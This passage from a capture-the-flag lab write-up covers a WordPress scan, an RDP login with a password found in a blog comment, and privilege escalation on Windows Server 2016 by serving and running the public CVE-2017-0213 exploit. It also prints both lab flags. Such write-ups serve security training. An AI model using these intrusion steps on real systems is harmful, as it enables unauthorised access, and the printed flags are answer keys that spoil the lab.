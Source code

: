 ```bash

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Aug 14 16:49:08 2025
[+] Requests Done: 170
[+] Cached Requests: 5
[+] Data Sent: 44.025 KB
[+] Data Received: 221.091 KB
[+] Memory used: 269.691 MB
[+] Elapsed time: 00:00:27
```

## 4. Try a Remote Desktop Connection

Wade left a single comment on one of the blog posts that happened to be his password. >_>

```bash
$ xfreerdp3 /u:wade /p:parzival /v:10.201.95.130
```

## 5. user.txt

It's right on the desktop.
> 3b99fbdc6d430bfb51c72c651a261927

## 6. Elevate Privileges

We can cross reference this repository of [windows kernel exploits](https://github.com/SecWiki/windows-kernel-exploits) with this [database](https://www.cvedetails.com/product/34965/Microsoft-Windows-Server-2016.html?vendor_id=26) to find an exploit working on Windows Server 2016. We can use [CVE-2017-0213](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213).

```bash
└─$ mv ~/Downloads/CVE-2017-0213_x64.zip /tmp 
└─$ cd /tmp && unzip /tmp/CVE-2017-0213_x64.zip 
Archive:  /tmp/CVE-2017-0213_x64.zip
  inflating: CVE-2017-0213_x64.exe   
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Navigate to the server on the remote desktop, download, and run the executable.

## 7. root.txt

```bash
dir /s c:\*root.txt*
```
```bash
type c:\Users\Administrator\Desktop\root.txt.txt
```
> 7958b569565d7bd88d10c6f22d1c4063

## Sources
- https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-rdp.html
- https://www.kali.org/tools/freerdp3/#xfreerdp3
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213
- https://www.cvedetails.com/cve/CVE-2017-0213/
